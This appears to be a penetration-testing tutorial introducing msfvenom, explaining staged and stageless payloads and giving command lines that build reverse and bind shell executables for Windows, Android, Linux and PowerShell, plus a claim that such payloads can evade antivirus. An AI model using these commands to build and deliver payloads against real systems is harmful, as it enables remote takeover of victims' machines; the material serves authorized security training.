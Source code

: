 :orphan:
(a-gentle-introduction-to-msfvenom)=
# A Gentle Introduction to MSFVenom
 
Msfvenom is a combination of Msfpayload and Msfencode, combining both tools into a single Framework instance. These tools are used to generate various payload types and encode them in various encoder modules. The msfvenom tool combines the capabilities of msfpayload and msfencode into a single tool. The use of msfpayload and msfencode had a lot of parameters, and users had problems remembering them. The problematic aspect was jumping from one tool to another tool so the   Metasploit developers decided to create and release the Msfvenom tool. After merging these tools together, msfvenom works faster and can handle all possible formats, and bring some sanity to payload generation. 

*Note: To run the MSFvenom, this article assumes that Kali Linux is installed and the network settings have been made.*

A payload is a piece of code that a hacker executes when they exploit a vulnerability. It is often made up of a few commands that will run on the target operating system to steal data and perform other malicious activities.

*There are mainly two types of Payloads.*
**Staged**: Staged payloads deliver a small stager to the victim, which then connects to the attacker and downloads the remaining payload. As a result, staged payloads require the use of special payload listeners, such as `multi/handler` in Metasploit.  These types of payloads are ideal when there is limited shellcode space. 
Staged payloads are denoted with the use of forward slash. For example, `windows/meterpreter/reverse_tcp `

**Stageless payloads** provide the full payload to the target at once, eliminating the need for the attacker to provide more data. That means we can utilize a variety of listeners, such as Netcat. Stageless payloads are denoted with the use of an underscore `_` for example, `windows/shell_reverse_tcp.` 

## MSFvenom 

Open up the Kali Linux terminal and type the command msfvenom. The command displays all the available options for creating a payload. 
`Msfvenom `

![msf_1](images/msf_1.png)

Syntax 
```
msfvenom -p [Payload_list]  lhost=[Listening_Ip_address] lport=[Listener port] -f [filtetype] > [output_filename] 

lhost = Listening IP, the IP address of the attacker machine for which the victim machine has to connect back with the reverse shell. 
lport = the Listening Port, the port to which the attacker machine will try to connect to. 
-p : this option is used to select the payload to be by msfvenom 
-f : the file format to be saved. 
```
To list all the payloads msfvenom offers, the following command can be used. 
`msfvenom -l payloads `

![msf_2](images/msf_2.png)

## Bind shell 

A bind shell is one that creates a new service on the target machine and requires the adversary to connect to it in order to gain access to the system. 

`msfvenom -p windows/meterpreter/bind_tcp lhost=<listener_IP> lport=<listener_port>  -f exe  -o reverse.exe`

![msf_3](images/msf_3.png)

The shell is will be saved with the .exe extension in the `/home/kali/Documents/payloads` folder. Note this payload is a staged payload. 

## Reverse TCP payload  

A reverse shell is one where attackers listen for the connection from the target machine. The target machine acts as a client connecting to that listener. 
The following command can be used to generate a reverse shell.
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<listener_IP> lport=<listener_port> -f exe > ~/Documents/payloads/reverse_tcp.exe`

![msf_4](images/msf_4.png)

Check out this blog to know more about Reverse shells [Click here](perform-remote-code-execution-with-the-use-of-reverse-shells)

## HTTPS shell

When the victim's system blocks all unneeded ports, we can generate payloads based on the running service on the machine, such as `443` for `HTTPS`. 
Type the following command to create an HTTPS payload. 
`msfvenom -p windows/meterpreter/reverse_https lhost=<listener_IP> lport=<listener_port> -f exe > ~/Documents/payloads/443.exe`

![msf_5](images/msf_5.png)

## Android shell

Using the msfvenom tool we can even create an android shell. The following command can be used for the android shell. 
`msfvenom -p android/meterpreter/reverse_tcp  lhost=<listener_IP> lport=<listener_port> > ~/Documents/payloads/file.apk`

![msf_6](images/msf_6.png)

`Note: the file extension will be a .apk file. `

## Linux reverse shell 

Open up the terminal and copy the following command to create a Linux reverse shell. 

`msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<listener_IP> lport=<listener_port>  -f elf > ~/Documents/payloads/shell`

![msf_7](images/msf_7.png)

## Powershell payload

With the help of the msfvenom .bat extension, the PowerShell reverse shell payload can be created. The following command can be used to create. 

`msfvenom -p cmd/windows/reverse_powershell lhost=192.168.230.128 lport=4447 > ~/Documents/payloads/shell.bat`

![msf_8](images/msf_8.png)

## Conclusion: 

This article demonstrated how to create different types of payloads using the msfvenom tool. With the MSFvenom one can create a very powerful payload that can bypass the Antivirus. To learn more about msfvenom techniques, read the manual page of msfvenom or check the following link `https://www.offensive-security.com/metasploit-unleashed/msfvenom/ `

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::